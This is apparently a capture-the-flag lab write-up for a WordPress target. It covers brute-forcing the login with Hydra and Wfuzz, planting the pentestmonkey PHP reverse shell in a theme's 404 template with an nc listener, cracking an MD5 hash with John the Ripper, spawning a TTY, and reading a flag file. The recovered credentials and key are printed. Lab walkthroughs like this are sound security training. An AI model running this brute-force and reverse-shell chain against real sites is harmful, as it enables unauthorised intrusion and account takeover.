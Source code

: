 
# Exploiting the fsociety.dic File and Gaining Access

## 1. Extracting and Sorting the Dictionary File

After discovering a directory in the **robots.txt** file, we found a dictionary file named `fsocity.dic`. To analyze its contents:

1. Copy the `fsocity.dic` file to the local machine.
    
2. Save it as a new file.
    
3. Use terminal commands to remove duplicates:

    ```bash
    grep -oE '[a-zA-Z]+' fsocity.txt | sort | uniq > f.txt
    ```

	This sorts the file and removes duplicate entries.

![[key2_photo1.png]]
![[key2_photo2.png]]
---

## 2. Checking Directories and Login Page

Using **gobuster**, we discovered multiple directories and decided to check **/wp-admin**.

On accessing `/wp-admin`, a login page appeared. The website displays "Invalid username" if an incorrect username is entered, allowing us to brute-force the correct username.
![[key2_photo3.png]]
![[key2_photo4.png]]
---

## 3. Brute-Forcing Username and Password

### Finding the Username

We used **Hydra** to brute-force the username:

```bash
hydra -L f.txt -p test 10.10.164.176 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"
```

This revealed the usernames: **ELLIOT, Elliot**.
![[key2_photo5.png]]

![[key2_photo6.png]]

### Finding the Password

Using **Wfuzz** to brute-force the password:

```bash
wfuzz -c -z file,f.txt -d "log=ELLIOT&pwd=FUZZ" http://10.10.117.182/wp-login.php
```

Password found: **ER28-0652**.
![[key2_photo7.png]]
![[key2_photo8.png]]
---

## 4. Gaining a Reverse Shell

### Steps:

1. Download the **pentestmonkey** PHP reverse shell script:
    
    ```
    https://github.com/pentestmonkey/php-reverse-shell.git
    ```
    
2. Modify the IP and port (4444) in the script.
3. Inject the script inside: **Appearances -> Editor -> 404 Template**.
4. Update the template with the script.
5. Start a listener on the attack machine:
    
    ```bash
    nc -lvnp 4444
    ```
    
6. Trigger the shell by accessing:
    
    ```
    http://10.10.117.182/wp-admin/page=45
    ```
    
    This executes the 404 template, launching the reverse shell.
![[key2_photo9.png]]
![[key2_photo10.png]]
---![[key2_photo11.png]]
![[key2_photo12.png]]

![[key2_photo13.png]]
## 5. Privilege Escalation

### Accessing the Robot Directory

Once inside, navigate to the **robot** directory:

```bash
cd /home/robot
```

Inside, there are two files:

1. A password file containing an MD5 hash.
2. A key file, but access is denied.

![[key2_photo14.png]]

### Cracking the Password

Extract the hash and crack it using **John the Ripper**:

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt password.hash
```

Cracked password: **abcdefghijklmnopqrstuvwxyz**

![[key2_photo15.png]]

### Switching to Robot User

Attempting to switch users:

```bash
su robot
```

If a terminal error occurs, spawn a TTY shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Enter the cracked password, granting access to the **robot** user.

![[key2_photo16.png]]

### Retrieving the Second Key

Now, access the restricted file and retrieve the key:

```bash
cat key-2-of-3.txt
```

**Key 2:** `822c73956184f694993bede3eb39f959`
![[key2_photo17.png]]

---

## Conclusion

We successfully exploited the system by:

- Extracting and cleaning the dictionary file.
- Brute-forcing login credentials.
- Injecting a reverse shell.
- Elevating privileges and retrieving the second key.

Next, we can explore further to gain root access.







